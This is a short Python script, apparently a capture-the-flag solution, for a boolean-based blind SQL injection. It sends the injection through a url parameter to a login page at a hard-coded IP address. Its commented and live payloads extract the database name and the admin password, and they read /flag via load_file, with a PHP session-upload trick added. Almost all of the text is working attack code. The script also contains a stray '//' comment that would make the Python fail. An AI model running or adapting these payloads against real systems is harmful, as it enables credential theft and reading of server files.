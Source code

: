 sql注入

```python
import requests
import time

flag = ''
sessid = 'flag'
for i in range(100):
    for j in range(32,128):
        if j==127:
            exit()
        # url = "http://183.129.189.60:10015/?url=http://localhost/se1f_Log3n.php?username=' or length(database())>0-- %26password=admin"
        # url = "http://183.129.189.60:10015/?url=http://localhost/se1f_Log3n.php?username=' or ascii(substr((select password from users where username='admin'),%d,1))=%d-- %26password="%(len(flag)+1,i)
        # url = "http://183.129.189.60:10015/?url=http://localhost/se1f_Log3n.php?username=' or ascii(substr(hex((select password from users where username='admin')),{},1))={}-- %26password=".format(len(flag)+1,j)
        # url = "http://183.129.189.60:10015/?url=http://localhost/se1f_Log3n.php?username=' or ascii(substr((database()),{},1))={}-- %26password=".format(len(flag)+1,j)
        url = "http://183.129.189.60:10015/?url=http://localhost/se1f_Log3n.php?username=' or ascii(substr((load_file('/flag')),{},1))={}-- %26password=".format(len(flag)+1,j)
        session = requests.session()
        response = session.post(url,data={'PHP_SESSION_UPLOAD_PROGRESS': 'x'},files={'file': open('C:/Users/Administrator/Desktop/1.txt', 'rb')}, cookies={'PHPSESSID': sessid})   //这里的文件名是本地随意创建的
        time.sleep(0.3)
        if 'correct?' in response.text:
            flag+=chr(j)
            print(flag)
            break
```

